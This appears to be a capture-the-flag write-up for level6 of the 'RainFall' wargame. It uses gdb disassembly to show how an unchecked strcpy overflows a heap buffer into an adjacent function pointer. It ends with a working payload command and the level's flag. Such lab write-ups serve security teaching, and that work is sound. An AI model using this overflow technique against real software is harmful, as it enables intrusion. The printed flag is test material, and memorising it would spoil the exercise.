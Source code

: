 1. disassembling the main, we can derive the source code in `source.c`

2. call to `strcpy()` which we know is not protected, copies first argument to the memory addresses pointed to by the result of the first malloc
Line <+70> => `eax` is loaded on the stack as first argument to `strcpy`, and `eax` got its value as teh address stored at `esp+0x1c` which is where the pointer resulting from the first malloc has been stored on the stackframe (line <+21>).
Hence the memory location of this address is on the heap.

3. So we know what we have to do : we should have a sufficiently long argv[1] to erase the value at address pointed to by ptr2 (the 2nd malloc) in the heap, with the address of the `n()` function. Then, after the call to  `strcpy`, the n() function will be called and not m() (which ws loaded there line <+41 to +50>)


4. Deriving our payload.

    - Let's first break at address **0x08048491** (line<+21>) to see where the first malloc has allocated memory on the heap.
    Looking at what's in `$eax` (the register where the value returned by any function is sotred), we can find the address allocated:

    ```
    Breakpoint 1, 0x08048491 in main ()
    (gdb) disas
    Dump of assembler code for function main:
        0x0804847c <+0>:	push   ebp
        0x0804847d <+1>:	mov    ebp,esp
        0x0804847f <+3>:	and    esp,0xfffffff0
        0x08048482 <+6>:	sub    esp,0x20
        0x08048485 <+9>:	mov    DWORD PTR [esp],0x40
        0x0804848c <+16>:	call   0x8048350 <malloc@plt>
    => 0x08048491 <+21>:	mov    DWORD PTR [esp+0x1c],eax
        0x08048495 <+25>:	mov    DWORD PTR [esp],0x4
        0x0804849c <+32>:	call   0x8048350 <malloc@plt>
        0x080484a1 <+37>:	mov    DWORD PTR [esp+0x18],eax
        0x080484a5 <+41>:	mov    edx,0x8048468
        0x080484aa <+46>:	mov    eax,DWORD PTR [esp+0x18]
        0x080484ae <+50>:	mov    DWORD PTR [eax],edx
        0x080484b0 <+52>:	mov    eax,DWORD PTR [ebp+0xc]
        0x080484b3 <+55>:	add    eax,0x4
        0x080484b6 <+58>:	mov    eax,DWORD PTR [eax]
        0x080484b8 <+60>:	mov    edx,eax
        0x080484ba <+62>:	mov    eax,DWORD PTR [esp+0x1c]
        0x080484be <+66>:	mov    DWORD PTR [esp+0x4],edx
        0x080484c2 <+70>:	mov    DWORD PTR [esp],eax
        0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
        0x080484ca <+78>:	mov    eax,DWORD PTR [esp+0x18]
        0x080484ce <+82>:	mov    eax,DWORD PTR [eax]
        0x080484d0 <+84>:	call   eax
        0x080484d2 <+86>:	leave
        0x080484d3 <+87>:	ret
    End of assembler dump.
    (gdb) i r $eax
    eax            0x804a008	134520840
    (gdb)
    ```

    So the first malloc (i.e. where our `ptr` points to in our source.c) has allocated 64 bytes of memory at address **0x804a008**



    - Then let's break right after the second malloc, and get the address location of the memory area allocated by the 2nd malloc :

    ```
    Breakpoint 2, 0x080484a1 in main ()
    (gdb) disas
    Dump of assembler code for function main:
        0x0804847c <+0>:	push   ebp
        0x0804847d <+1>:	mov    ebp,esp
        0x0804847f <+3>:	and    esp,0xfffffff0
        0x08048482 <+6>:	sub    esp,0x20
        0x08048485 <+9>:	mov    DWORD PTR [esp],0x40
        0x0804848c <+16>:	call   0x8048350 <malloc@plt>
        0x08048491 <+21>:	mov    DWORD PTR [esp+0x1c],eax
        0x08048495 <+25>:	mov    DWORD PTR [esp],0x4
        0x0804849c <+32>:	call   0x8048350 <malloc@plt>
    => 0x080484a1 <+37>:	mov    DWORD PTR [esp+0x18],eax
        0x080484a5 <+41>:	mov    edx,0x8048468
        0x080484aa <+46>:	mov    eax,DWORD PTR [esp+0x18]
        0x080484ae <+50>:	mov    DWORD PTR [eax],edx
        0x080484b0 <+52>:	mov    eax,DWORD PTR [ebp+0xc]
        0x080484b3 <+55>:	add    eax,0x4
        0x080484b6 <+58>:	mov    eax,DWORD PTR [eax]
        0x080484b8 <+60>:	mov    edx,eax
        0x080484ba <+62>:	mov    eax,DWORD PTR [esp+0x1c]
        0x080484be <+66>:	mov    DWORD PTR [esp+0x4],edx
        0x080484c2 <+70>:	mov    DWORD PTR [esp],eax
        0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
        0x080484ca <+78>:	mov    eax,DWORD PTR [esp+0x18]
        0x080484ce <+82>:	mov    eax,DWORD PTR [eax]
        0x080484d0 <+84>:	call   eax
        0x080484d2 <+86>:	leave
        0x080484d3 <+87>:	ret
    End of assembler dump.
    (gdb) i r $eax
    eax            0x804a050	134520912
    ```

    So the second malloc has allocated 4 bytes of memory at address **0x804a050**

    The difference between both address is **72 bytes**, and not 64 bytes, because of alignment + part of memory allocated for memory headers.

    - If we look at stack memory values starting from $esp, we will find those values at `$esp+0x1c` and `$esp+0x18` respectively:

    ```
    (gdb) x/8wx $esp
    0xbffff670:	0x00000004	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
    0xbffff680:	0xb7fed280	0x00000000	0x0804a050	0x0804a008
    ```

    - Hence : we have to give to strcpy, through argv[1], 72 random bytes, and then the address of `n()` (**0x08048454**)


5. Payload and result:

```
level6@RainFall:~$ ./level6 $(python -c 'print("\x90"*72 + "\x54\x84\x04\x08")')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
